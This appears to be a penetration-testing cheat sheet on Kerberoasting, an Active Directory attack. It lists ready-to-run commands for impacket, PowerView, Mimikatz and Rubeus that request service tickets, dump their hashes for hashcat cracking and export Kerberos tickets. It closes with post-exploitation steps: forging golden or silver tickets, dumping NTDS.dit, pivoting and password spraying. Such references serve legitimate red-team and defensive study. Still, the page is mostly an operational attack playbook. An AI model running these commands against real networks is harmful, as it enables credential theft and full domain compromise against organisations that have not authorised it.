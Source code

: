 # kerberoasting

All domain users can request a copy of all service accounts along with their password hashes. This allows user to
request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to crack service
password.

* [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)
* [kekeo](https://github.com/gentilkiwi/kekeo)

## Usage

### impacket

```bash
impacket-GetUserSPNs DOMAIN.com/USER:'PASS' -dc-ip DC_IP -request
# hashcat -m 13100
```

### using powerview

```bash
#Get User Accounts that are used as Service Accounts
Get-NetUser -SPN

#Get every available SPN account, request a TGS and dump its hash
Invoke-Kerberoast

#Requesting the TGS for a single account:
Request-SPNTicket
  
#Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### using rubeus

```bash
# using Rubeus.exe
Rubeus.exe kerberoast /domain:DOMAIN /creduser:USER /credpassword:PASS [/rc4opsec]
/rc4opsec: safe kerberoasting (not on AES enabled accounts)

```

## post kerberoasting

* If the service account is domain admin > Golden/Silver ticket > dumping the NTDS.dit.
* If the service account is not domain admin > log into system with creds > pivot/escalate > password spray other
  service and domain admin accounts
